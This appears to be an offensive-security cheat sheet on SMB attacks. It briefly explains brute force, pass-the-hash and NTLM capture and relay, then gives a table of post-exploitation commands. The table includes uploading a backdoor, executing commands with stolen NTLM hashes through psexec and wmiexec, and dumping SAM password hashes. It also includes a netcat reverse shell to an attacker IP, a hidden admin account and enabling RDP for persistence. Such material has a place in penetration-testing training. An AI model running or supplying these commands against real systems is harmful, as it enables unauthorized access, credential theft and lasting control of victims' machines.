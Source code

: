 
### **🧨 SMB Attack**

There are some methods and potential actions that can be performed with SMB.

1. Guest or anonymous access in SMB : **`allows users to access shared resources without authentication and also some times RCE.`** 
2. SMB Bruteforce  **: `SMB Bruteforce attacks attempt to guess valid usernames and passwords to gain unauthorized access to SMB shares. Attackers use automated tools to repeatedly try credentials until they find a match. Also Can Use For Password Spraying`**
3. Remote Code Execution (RCE) via SMB : **`SMB vulnerabilities can be exploited to achieve Remote Code Execution (RCE), allowing attackers to execute arbitrary commands on the target machine remotely. and Alose if Know User And Pass Or Have NTLM Hash Can Run System Command`** 
4. Net-NTLM Capture Attack : **`A Net-NTLM Capture Attack targets Windows authentication mechanisms that rely on Net-NTLM hashes. Attackers set up rogue SMB or HTTP servers to capture authentication attempts and obtain Net-NTLMv1/v2 hashes, which can then be cracked or relayed to gain unauthorized access.`**
5. Pass-The-Hash (PTH) Attack : **`Pass-The-Hash (PTH) is an attack technique that allows an adversary to authenticate as a user without knowing their plaintext password by using the NTLM hash instead. This technique is commonly used in lateral movement attacks within a compromised network.`**
6. Net-NTLM Relay Attack : **`A Net-NTLM Relay Attack is an attack technique that abuses Windows authentication mechanisms to impersonate legitimate users by relaying captured Net-NTLM hashes to a target system. This allows an attacker to gain unauthorized access without needing to crack passwords.`**

---

## **🚀 What Can You Do After Exploiting SMB or Gaining a Password Or Hash?**

Once you have successfully **bruteforced SMB credentials** or **exploited SMB vulnerabilities**, you can escalate access, move laterally, and maintain persistence. Below are the **critical next steps** after gaining SMB access.

| **List SMB Shares** | `smbmap -H <target_IP> -u Administrator -p 'Password123'` |
| --- | --- |
| **List Files in SMB Share** | `smbclient //<target_IP>/SharedFolder -U "Administrator"` |
| **Download File from SMB** | `get secret-doc.pdf` |
| **Upload Backdoor to SMB** | `put backdoor.exe` |
| **Execute Commands via PSEXEC** | `psexec.py Administrator@<target_IP> -hashes :<NTLM-Hash> whoami` |
| **Execute Commands via WMIExec** | `wmiexec.py Administrator@<target_IP> -hashes :<NTLM-Hash>` |
| **Spawn Reverse Shell via SMB** | `psexec.py Administrator@<target_IP> -hashes :<NTLM-Hash> -c nc.exe -e cmd.exe <attacker_IP> 4444` |
| **Extract Password Hashes (Dump SAM)** | `secretsdump.py Administrator@<target_IP> -hashes :<NTLM-Hash>` |
| **Create Admin User** | `net user backdoor P@ssw0rd /add & net localgroup Administrators backdoor /add` |
| **Enable RDP for Persistent Access** | `reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f` |
